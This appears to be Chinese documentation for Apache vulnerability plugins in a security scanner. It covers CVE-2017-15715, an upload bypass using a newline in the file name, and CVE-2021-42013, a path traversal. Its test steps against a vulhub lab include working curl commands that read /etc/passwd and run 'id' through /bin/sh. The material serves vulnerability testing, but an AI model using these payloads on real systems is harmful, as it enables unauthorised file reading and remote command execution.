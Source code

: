 ```yaml
---
sidebar_position: 14
---
```

# Apache插件使用

## 1 CVE-2017-15715

**插件id：**

f7c170b3-77de-4af3-8551-6da4ce1bd471

**漏洞描述：**

Apache HTTPD换行解析漏洞，Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

**测试过程：**

vulhub靶场访问测试网站，上传一个php文件，被拦截

![](/img/products/yakit/apache-1.png)

在1.php后面插入一个\x0A，成功上传

![](/img/products/yakit/apache-2.png)

访问刚才上传的/1.php%0a，发现能够成功解析

![](/img/products/yakit/apache-3.png)

## 2 CVE-2021-42013

**插件id：**

239d9646-1ca4-471e-a9b4-5ab0534f759b

**漏洞描述：**

Apache HTTP Server 2.4.50 路径穿越漏洞，攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

**测试过程：**

vulhub靶场访问测试网站，使用.%%32%65进行漏洞利用，成功读取到/etc/passwd

```go
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](/img/products/yakit/apache-4.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令

```go
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](/img/products/yakit/apache-5.png)

